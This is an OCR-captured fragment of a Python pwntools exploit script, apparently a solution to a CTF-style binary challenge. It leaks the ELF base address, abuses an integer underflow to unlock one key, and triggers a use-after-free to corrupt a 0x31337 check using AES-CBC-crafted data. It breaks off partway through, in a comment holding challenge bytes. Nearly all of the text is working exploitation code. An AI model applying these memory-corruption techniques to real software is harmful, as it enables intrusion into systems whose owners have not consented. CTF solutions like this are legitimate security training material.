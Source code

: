     tmp_leak = r.recv(0xd)
    elf_leak += (int(tmp_leak[10],16)*0x100000)+(int(tmp_leak[11],16)*0x10000)
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak += (int(tmp_leak[10],16)*0x10000000)+(int(tmp_leak[11],16)*0x1000000)
    return elf_leak-0x4021 # get elf_base

def launch_nuke():
    r.sendline("confirm")

def code_pack(addr):
    return "53"+hex(addr)[8:10]+"4953"+hex(addr)[6:8]+"4953"+hex(addr)[4:6]+"4953"+hex(addr)[2:4]+"49"

def exploit(r):

    chunk_leak = int(r.recvuntil("SELECTION: ").split("\n")[7].split(" ")[4][7:17])
    log.success("heap chunk found at: "+hex(chunk_leak))

    ## UNLOCK KEY1 ##
    ## ABUSE INT UNDERFLOW ###
    key1("\x00\x00\x00\x00")
    log.success("key 1 unlocked!")

    ## FREE KEY3 CHUNK ##
    log.info("triggering UAF...")
    log.info("creating key 3 chunk...")
    r.sendline("3")
    r.recvuntil("#:")
    log.info("freeing key 3 chunk...")
    r.sendline("")
    r.sendline("")
    r.recvuntil("SELECTION:")

    ## UAF TO CORRUPT KEY3.31337_check ##
    IV  = p32(0xfeedfacf)
    IV += p32(0xdeadc0de)
    IV += p32(0xbabecafe)
    IV += p32(0x0a55b00b)

    key = "\x00"*(16)
    cipher = "\x00"*0x10+p32(0x31337)+"\x00"*0xc

    obj = AES.new(key,AES.MODE_CBC, IV)
    plaintext = obj.decrypt(cipher)

    log.info("allocating key 2 chunk...")
    key2(32, "", plaintext)

    ## UNLOCK KEY3 W/OVERWRITTEN KEY3.31337 ##
    log.info("re-using key 3 chunk...")
    key3("")
    log.success("key 3 unlocked!")

    ## UNLOCK KEY2 ##
    '''
    CHALLENGE (64 Bytes):
    F2.CC.C2.65.8F.31.AC.15.42.53.EC.27.85.84.26.7D
    75.B8.86.45.81.04.80.2E.D1.6D.F2.60.30.9D.F7.30
    DA.B0.1F.DB.C1.17.ED.4F.2A.A4.63.13.EE.E5.55.81
    42.F2.01.12.E2.C5.8A.36.C9.7B.39.60.36.7E.1C.99
    [...]
    $ cat seeds